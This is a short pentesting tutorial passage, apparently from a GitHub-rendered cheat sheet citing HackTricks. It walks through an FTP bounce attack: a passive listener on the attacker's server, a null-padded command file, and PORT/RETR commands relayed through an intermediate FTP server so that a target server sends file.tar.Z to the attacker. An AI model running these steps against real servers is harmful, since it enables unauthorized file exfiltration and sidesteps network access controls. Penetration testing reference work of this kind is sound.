 #### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

> [!TIP]
> The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and __make the targeted machine execute this file. 

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```

* The attacker should have received on his server the file 'file.tar.Z' renamed as 'dump'. 

## Resources

[https://book.hacktricks.xyz/pentesting/pentesting-ftp](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b](https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b)
